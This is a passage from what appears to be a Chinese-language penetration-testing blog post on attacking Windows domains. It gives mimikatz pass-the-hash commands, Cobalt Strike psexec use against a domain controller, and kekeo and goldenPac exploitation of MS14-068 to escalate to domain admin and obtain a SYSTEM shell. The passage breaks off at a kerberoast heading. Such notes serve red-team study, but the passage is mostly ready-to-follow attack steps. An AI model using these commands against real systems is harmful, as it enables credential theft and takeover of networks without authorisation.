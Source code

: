 2. 使用 mimikatz

我们在目标机里放置 mimikatz.exe 然后执行以下命令

```
sekurlsa::pth /user:administrator /domain:"xxx.com" /ntlm:6542d35ed5ff6ae5e75b875068c5d3bc  //自行修改
```

之后便会弹出一个 cmd 窗口，在这个窗口里链接机器即可

```
net use \\192.168.222.131\c$
```

3. 使用 cobalt strike

在 cobalt strike 里找到域控，然后使用 psexec 模块，选择一个本地 hash 即可。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130746.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130746.png)

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130806.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130806.png)

MS14-068
--------

这个洞的危害很大，可以让任意域用户提权到域管。  
适用版本: server 2000 以上  
补丁: kb3011780

### M14068 利用

1. 工具 kekeo [https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20200718](https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20200718)

具体方法为，在 kekeo 里先执行 kerberos::purge 清空票据  
然后再执行 exploit::ms14068 /user:xxx /password:xxx /domain:xxx /ptt  
即可。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132222.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132222.png)

然后就 dir \ 域控 \ c$ 试试，如果可以就说明提权成功了（不是每次都能成功的)

2.golenpac [https://github.com/maaaaz/impacket-examples-windows/blob/master/goldenPac.exe](https://github.com/maaaaz/impacket-examples-windows/blob/master/goldenPac.exe)

这个工具好用,

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132233.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132233.png)

执行类似上述命令，就能返回一个域控的 system 权限的 cmd shell 回来，感觉蛮好用  
另外在最后指定域控机器时，可以指定域控以外的机器并获取他们的本地 system 权限用户.  
但返回的似乎不是域控？

kerberoast
----------
